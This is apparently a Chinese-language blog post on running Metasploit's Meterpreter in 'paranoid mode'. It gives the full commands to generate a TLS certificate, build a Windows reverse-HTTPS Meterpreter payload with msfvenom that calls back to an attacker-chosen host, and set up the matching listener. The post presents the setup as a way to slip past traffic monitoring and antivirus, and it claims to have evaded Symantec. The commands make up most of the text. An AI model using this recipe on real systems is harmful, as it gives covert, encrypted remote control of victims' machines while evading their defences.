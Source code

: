 ```yaml
---
layout: post
title:  "MSF偏执模式"
date:   2016-11-23 17:00:01 +0800
categories: MSF
tag: Bypass AV 
---
```


* content
{:toc}



在某些环境下，我们需要用到meterpreter的偏执模式(paranoid mode)。

偏执模式在面对接受的请求很多的时候，可以有效过滤筛选回连的请求，只留下自己所需要的。

同时，因为其使用了SSL/TLS 认证，因此在应对流量监控和分析时，有很不错的效果，当然也能够Bypass av(by data stream)。

创建一个SSL/TLS证书
-------------

在kali或者其他带有openssl的环境下：

    $ openssl req -new -newkey rsa:4096 -days 365 -nodes -x509 \
        -subj "/C=US/ST=Texas/L=Austin/O=Development/CN=green-m.github.io" \
        -keyout green-m.github.io.key \
        -out green-m.github.io.crt && \
    cat green-m.github.io.key  green-m.github.io.crt > green-m.github.io.pem && \
    rm -f green-m.github.io.key  green-m.github.io.crt

你可以把green-m.github.io这个URL改成任意你想回连的地址，直接指定相应IP也可以。

如果你能搞到一个受信任的证书颁发机构签名的SSL/TLS证书，那就碉堡了，流量直接畅通无阻。

生成偏执模式的payload
--------------

    msfvenom -p windows/meterpreter/reverse_winhttps LHOST=green-m.github.io LPORT=443 PayloadUUIDTracking=true HandlerSSLCert=./green-m.github.io.pem StagerVerifySSLCert=true PayloadUUIDName=Green_m -f exe -o ./Green_m.exe

通过设置PayloadUUIDTracking和PayloadUUIDName可以在监听的时候过滤掉不需要的回连请求。为了Bypass av的需求，你还可以生成shellcode来自己编译。

如果网络环境不好，你还可以使用stageless的payload，-p参数指定windows/meterpreter_reverse_https，其他不用修改。

监听偏执模式
------

    msfconsole
    use exploit/multi/handler
    set PAYLOAD windows/meterpreter/reverse_winhttps
    set LHOST green-m.github.io
    set LPORT 443
    set HandlerSSLCert ./green-m.github.io.pem
    set IgnoreUnknownPayloads true
    set StagerVerifySSLCert true
    set exitonsession false
    run -j -z

设置HandlerSSLCert和StagerVerifySSLCert参数来使用TLS pinning，IgnoreUnknownPayloads接受白名单的payload。

同上，stageless 修改相应payload。

总结：偏执模式基于SSL/TLS认证过某些流量监控效果应该很不错，测试也过了symantec，仅供参考。
------------------------------------------------


参考文章：https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-Paranoid-Mode#create-a-ssltls-certificate


转载请注明出处：[https://green-m.github.io/2016/11/23/msf-paranoid-mode/](https://green-m.github.io/2016/11/23/msf-paranoid-mode/)